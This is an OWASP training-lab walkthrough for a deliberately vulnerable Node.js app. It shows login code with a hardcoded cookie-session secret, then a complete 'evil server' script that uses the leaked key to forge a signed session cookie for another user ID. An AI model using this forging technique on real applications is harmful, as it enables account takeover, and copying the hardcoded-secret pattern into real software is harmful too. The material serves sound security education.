# Authorization Bypass

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-auth-bypass
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-auth-bypass
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The application suggests we login with admin/admin as username/password.

![](../../.gitbook/assets/nodejs/Auth-Bypass/1.png)

Once we login we see an API key.

![](../../.gitbook/assets/nodejs/Auth-Bypass/2.png)

Let's have a look at the source code:

```javascript
app.all("/login", (req, res) => {
  const sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  const api = "SELECT * FROM preferences WHERE UserId = ?";
  if (req.method === "POST") {
    db.get(sql, [req.body.username, req.body.password], (err, row) => {
      if (row) {
        req.session.userId = row.UserId;
        req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
        req.session.loggedIn = true;
        db.get(api, [req.session.userId], (err, row) => {
          res.render("home.ejs", { api: row.API_key });
        });
      } else {
        res.render("index.ejs");
      }
    });
  } else {
    db.get(api, [req.session.userId], (err, row) => {
      res.render("home.ejs", { api: row.API_key });
    });
  }
});
```

We can see the cookie session secret is exposed, now we can try to recreate this application cookie implementation to be able to recreate a cookie to bypass the authentication.

## Exploitation

We can start building our malicious server.

```javascript
const cookieSession = require("cookie-session");
const express = require("express");
const cookieParser = require("cookie-parser");
const app = express();

app.use(express.static(__dirname));
app.use(cookieParser());
app.use(
  cookieSession({
    name: "session",
    keys: ["e5ac-4ebf-03e5-9e29-a3f562e10b22"],
    httpOnly: false,
    maxAge: 86400000,
  })
);

app.get("", (req, res) => {
  req.session.userId = 2; // CHANGED THE USER ID
  req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
  req.session.loggedIn = true;
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () =>
  console.log(`Listening on port ${port}...!!!`)
);
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```text
$ npm install express ejs cookie-session cookie-parser
```

Save the following snippet code into /views/evil.js

```html
<p>The newly created cookie for doing the bypass:</p>
<script>
  alert(document.cookie);
</script>
```

We are ready to start our server:

```text
$ node evil_server.js
```

![](../../.gitbook/assets/nodejs/Auth-Bypass/3.png)

Now we can replace our original cookie with the tampered cookie.

![](../../.gitbook/assets/nodejs/Auth-Bypass/4.png)

Refresh the page:

![](../../.gitbook/assets/nodejs/Auth-Bypass/5.png)

## Additional sources

{% embed url="https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema" %}

